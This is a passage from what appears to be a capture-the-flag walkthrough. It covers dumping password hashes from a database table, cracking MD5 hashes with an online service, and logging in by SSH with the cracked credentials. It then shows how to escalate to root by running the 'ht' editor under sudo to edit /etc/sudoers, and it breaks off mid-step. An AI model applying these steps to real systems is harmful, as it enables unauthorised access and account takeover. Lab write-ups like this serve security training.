 ```bash

SELECT * FROM dev_accounts;



Results:

You’ll retrieve hashed passwords for users.


---

Cracking Password Hashes

The hashes appear to be MD5. Use CrackStation to crack them.

Results:

User 1: Dreg

User 2: loneferret



---

Logging in via SSH

1. Use the cracked credentials to log in as loneferret:

ssh loneferret@<ipaddress>


2. Check sudo privileges:

sudo -l



Results:

loneferret can run ht (a file editor) as root.


---

Exploiting ht for Root Access

1. Run ht as root:

sudo ht

If you encounter an error:

export TERM=xterm


2. Edit the /etc/sudoers file:

Press F3 to search for /etc/sudoers.

Add this to the loneferret line:

```